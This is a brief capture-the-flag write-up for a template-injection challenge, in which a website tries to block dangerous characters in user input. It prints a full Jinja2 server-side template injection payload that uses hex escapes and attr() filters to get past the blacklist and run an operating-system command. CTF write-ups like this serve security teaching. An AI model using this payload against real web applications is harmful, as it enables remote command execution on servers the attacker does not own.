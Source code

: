 - Description

    I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
    I heard templating is a cool and modular way to build web apps! Check out my website here!
- Hints

    `1. Server Side Template Injection`
    `2. Why is blacklisting characters a bad idea to sanitize input?`

    ![alt text](image.png)

- Like SSTI1, I can reuse the payload

    ```python3
    {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
    ```

    ![alt text](image-1.png)

- Read the flag

    ![alt text](image-2.png)